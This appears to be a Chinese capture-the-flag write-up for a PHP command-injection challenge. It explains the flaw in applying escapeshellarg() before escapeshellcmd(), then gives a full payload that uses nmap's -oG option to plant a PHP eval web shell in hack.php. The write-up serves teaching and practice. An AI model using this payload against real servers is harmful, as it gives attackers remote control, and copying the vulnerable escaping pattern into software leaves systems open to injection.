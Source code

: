 【**Nmap写入一句话木马**】

题目提示是 RCE，从代码中可以看出，解题目标是向 host 参数传递目标 Payload 使得 system() 函数执行恶意命令。查阅资料可知道，**nmap 命令中 有一个`-oG`参数可以实现将命令和结果写到文件，我们可以借助该参数写入一句话木马到服务器指定文件中，并通过蚁剑链接后控制服务器、查看 Flag**。

故我们要实现：

```
nmap -T5 -sT -Pn --host-timeout 2 -F &lt;?php @eval($_POST["123"]); ?&gt; -oG hack.php


```

即实现：

```
?host=&lt;?php @eval($_POST["123"]);?&gt; -oG hack.php


```

【**escapeshellarg 函数组合漏洞**】

但是我们发现 host 参数传递的值会经过`escapeshellarg()`和 `escapeshellcmd()` 函数处理后再传递给 system 函数执行，先来了解下这两个函数：

|函数|作用
|------
|escapeshellarg()|将给字符串增加一个单引号并且能引用或者转码任何已经存在的单引号，这样能确保直接将一个字符串传入 shell 函数，shell 函数包含 exec(), system() 执行运算符(反引号) 。
|escapeshellcmd()|对字符串中可能会欺骗 shell 命令执行任意命令的字符进行转义（如&amp; # ; `

这两个函数按代码里那样的顺序使用，是会产生漏洞的，如果是反过来就不会（、）。

下面简述一下该漏洞：
1. 假设传入的参数是：`172.17.0.2' -v -d a=1`；1. 经过 `escapeshellarg()` 函数处理后变成了`'172.17.0.2'\'' -v -d a=1'`，即先对单引号转义，再用单引号将左右两部分括起来从而起到连接的作用；1. 经过 `escapeshellcmd()` 函数处理后变成`'172.17.0.2'\\'' -v -d a=1\'`，这是因为`escapeshellcmd()` 对`\`以及最后那个不配对儿的引号进行了转义；1. 最后执行的命令是`curl '172.17.0.2'\\'' -v -d a=1\'`，由于中间的`\\`被解释为`\`而不再是转义字符，所以后面的`'`没有被转义，与再后面的`'`配对儿成了一个空白连接符。所以可以简化为`curl 172.17.0.2\ -v -d a=1'`，即向`172.17.0.2\`发起请求，POST 数据为`a=1'`。
所以这里这些代码的本意是希望我们输入 ip 这样的参数做一个扫描，通过上面的两个函数来进行规则过滤转译，我们的输入会被单引号引起来，但是因为我们看到了上面的漏洞所以我们可以逃脱这个引号的束缚。

这里常见的命令后注入操作如 `| &amp; &amp;&amp;`都不行，虽然我们通过上面的操作逃过了单引号，但`escapeshellcmd()`函数会对这些特殊符号前面加上`\`来转移，但是我们之前就说了，要利用 nmap 的`-oG`参数，所以我们就可以构造 Payload：

```
?host=' &lt;?php @eval($_POST["123"]);?&gt; -oG hack.php '


```

注意 Payload 中首尾都加了单引号和空格，空格我还不懂啥意思……下面只分析加单引号的妙处。

运行以下测试代码：

```
&lt;?php
    $host1 = "123";
    $host2 = escapeshellarg($host1);
    $host3 = escapeshellcmd($host2);
    echo $host1."\n".$host2."\n".$host3."\n";
    echo "nmap -T5 -sT -Pn --host-timeout 2 -F ".$host3;
?&gt;


```
